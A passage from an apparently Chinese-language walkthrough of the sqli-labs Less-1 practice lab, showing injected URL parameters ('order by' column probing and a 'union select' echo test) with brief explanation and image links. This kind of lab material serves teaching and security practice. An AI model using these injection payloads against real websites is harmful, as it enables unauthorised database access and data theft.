   ![](/assets/images/1-3.png)

  ```
  /sqlilabs/Less-1/?id=1' order by 3 --+
  ```

  ![](/assets/images/1-4.png)

  ```
  /sqlilabs/Less-1/?id=1' order by 4 --+
  ```

​	![](/assets/images/1-5.png)

​	order by 4 根据第四列进行排序时出错 => 表明回显数组列数为3

- 判断回显位置

  ```
  /sqlilabs/Less-1/?id=-1'union select 1,2,3 --+
  ```

  ![](/assets/images/1-6.png)
